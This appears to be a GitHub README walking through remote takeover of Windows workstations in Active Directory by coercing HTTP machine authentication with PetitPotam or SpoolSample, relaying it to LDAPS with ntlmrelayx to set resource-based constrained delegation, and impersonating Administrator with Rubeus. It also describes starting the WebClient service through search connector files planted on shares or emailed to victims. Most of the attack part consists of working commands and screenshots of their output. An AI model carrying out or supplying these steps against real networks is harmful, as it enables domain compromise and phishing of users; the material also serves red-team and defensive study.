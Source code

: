 ## Overview

In the default configuration of Active Directory, it is possible to remotely take over Workstations (Windows 7/10/11) and possibly servers (if Desktop Experience is installed) when their WebClient service is running. This is accomplished in short by;

- Triggering machine authentication over HTTP via either MS-RPRN or MS-EFSRPC (as [demonstrated by @tifkin_](https://twitter.com/tifkin_/status/1418855927575302144?s=20)). This requires a set of credentials for the RPC call. 
- Relaying that machine authentication to LDAPS for configuring RBCD
- RBCD takeover

The caveat to this is that the WebClient service does not automatically start at boot. However, if the WebClient service has been triggered to start on a workstation (for example, via some SharePoint interactions), you can remotely take over that system. In addition, there are several ways to coerce the WebClient service to start remotely which I cover in a section below.

## RPC to RCE steps

1. To begin setup a relay to the LDAPS server for configuring RBCD. 

`ntlmrelayx.py -t ldaps://dc.windomain.local --delegate-access`
![NTLMRelayx.py](https://user-images.githubusercontent.com/46607768/126908959-4772e8ff-8ff5-4676-b7f9-39826cf5a1b3.png)

2. Attempt to trigger machine authentication over HTTP to your relay. This can be done via the publicly known RPC calls (and undoubtly various other unpublished ones)

`PetitPotam.exe logger@80/a.txt 192.168.38.104`
![PetitPotam](https://user-images.githubusercontent.com/46607768/126908997-a4c9ef39-dcf8-41a0-9278-292591804380.png)

OR

`SpoolSample.exe 192.168.38.104 logger@80/asdf`
![SpoolSample](https://user-images.githubusercontent.com/46607768/126909117-b09f50f2-f88a-48c6-9361-9237d4ecc104.png)

  Note for this critical step (remote machine authentication) to work;
  - The WebClient service needs to be running on the target (192.168.38.104 in this example). It may already be started on some workstations (worth trying to see if you get lucky) but if not see the next section. 
  - Your attacking host (`logger` in the case of my example) needs to be considered 'intranet' zoned by the target. One way to accomplish this is by using the netbios name of your attacking host (no periods). 
  - The URI syntax used above to coerce HTTP authentication (swapping in your attacking hostname).
  - LDAP signing/channel-binding must be disabled (this is the default).

3. If machine authentication is coerced, you should see a successful relay to LDAPS (assuming channel binding/signing is not enabled on the DC). This will result in the creation of a machine account for which RBCD is configured. If creating machine accounts is not possible, you can alternatively configure RBCD for a machine you have already compromised. 

![Successful Relay](https://user-images.githubusercontent.com/46607768/126909127-fb0711f0-f1eb-4e7c-9d14-0b92526aa87c.png)

4. From here, it's simply a matter of following the standard RBCD takeover methodology. I switched over to Rubeus, since my Linux host wasn't yet configured for Kerberos authentication but of course you can do this all from one host.

Calculate Password Hash:
`Rubeus.exe hash /password:NkQuBzsPk_AqKC6 /user:ZESLUQVX$ /domain:windomain.local`

Perform impersonation via S4U2Proxy:
`Rubeus.exe s4u /user:ZESLUQVX$ /rc4:D57DFD6E3BCDB1C2BF4D02CEE32F58C3 /impersonateuser:Administrator /msdsspn:cifs/WIN10.WINDOMAIN.LOCAL /ptt`

![S4U2proxy success](https://user-images.githubusercontent.com/46607768/126909145-793556e7-2960-4120-ac10-7133d4dfc9f2.png)

5. Enjoy your new workstation.

![Silver Ticket Use](https://user-images.githubusercontent.com/46607768/126909129-76c5858b-402e-4a1f-9cfe-402c59763e9a.png)

## Coercing the WebClient Service to Start

In my brief research/testing I found that a 'Search Connector' file could be used to start the WebClient service (as discussed/discovered by [@DTMSecurity](https://dtm.uk/exploring-search-connectors-and-library-files-on-windows/) and [@domchell](https://www.mdsec.co.uk/2021/02/farming-for-red-teams-harvesting-netntlm/)). If you place said file locally, it will start the service locally (allowing for LPE) or you can place said file on an SMB share you have write access to. When a domain user browses that SMB share and views the 'searchConnector-ms' file you planted, the WebClient service will start on their workstation, and you can proceed with step 2 above. Of course you can also attempt NTLM relay of the user authentication, but our discussion/goal here is simply to have the WebClient started to enable machine takeover.

**Before:**
![WebClient Stopped](https://user-images.githubusercontent.com/46607768/126909134-d745f149-1fde-4b5b-81f3-f3e206e7bf0f.png)

**Creating the SearchConnector-ms File:**
![SearchConnector](https://user-images.githubusercontent.com/46607768/126909138-0c91612f-6743-491b-9a88-cb88006b2b09.png)

**After:**

![WebClient Running](https://user-images.githubusercontent.com/46607768/126909124-1d6dfcaa-ffb1-4557-ba49-3d91acee990b.png)

You can set the HTTP target as your attacker host so you know which workstation has had the WebClient started.

As an alternative approach (albeit less stealthy), you can email your target a 'Search Connector' file. If a user attempts to open the file, the WebClient service will start on their workstation. 